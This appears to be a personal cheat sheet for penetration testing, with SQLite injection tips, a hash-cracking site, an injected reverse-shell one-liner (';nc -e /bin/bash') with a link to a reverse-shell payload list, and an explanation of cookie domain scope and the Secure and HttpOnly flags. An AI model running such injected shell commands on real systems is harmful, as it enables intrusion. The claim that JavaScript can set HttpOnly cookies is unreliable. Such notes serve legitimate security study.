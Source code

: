 
### Sqlite injection
Flat files db are used for small db. Some sqlite commands are
`PRAGMA table_info(<table-name>)`, `.tables`
for UNION use NULL in select to determine the number of columns

#### Crack Hash/ password
crackstation.net 


## Reverse shell
To have bash over nc
`;nc -e /bin/bash`
Other ways to have reverseshell is: https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md

## Cookie Domain Scope

Domain Scope: When a cookie is set for a domain (like .example.com), it is accessible to all subdomains of that domain (e.g., sub1.example.com, sub2.example.com). This means any subdomain can read the cookie.

1. Parent and Child Domains: Cookies can be set for both a parent domain (e.g., .example.com) and its subdomains. However, a cookie set for one subdomain (like sub1.example.com) cannot be accessed by sibling subdomains (like sub2.example.com).

Example:

If you set a cookie for .example.com, it will be readable by app.example.com, shop.example.com, etc.
But if you set a cookie specifically for shop.example.com, it won’t be accessible to app.example.com.

2. Security Flags

Cookies have optional flags that enhance security. Key flags include:

Secure: When this flag is set, the cookie is only sent to the server over HTTPS, preventing it from being transmitted over an unencrypted connection (HTTP). This ensures that the cookie data is protected from potential interception.

HttpOnly: This flag restricts JavaScript from accessing the cookie via document.cookie, providing protection against Cross-Site Scripting (XSS) attacks. However, while JavaScript cannot read this cookie, it can still set it using document.cookie. Only the server can access it directly.

Example Usage:

If you want a secure, HTTP-only cookie for .example.com, you would set:

http

Set-Cookie: user_session=abc123; Domain=.example.com; Secure; HttpOnly

This configuration ensures:

The cookie is accessible to all subdomains under .example.com.
The cookie is transmitted only over HTTPS.
JavaScript running on the page cannot read the cookie, enhancing security against XSS.
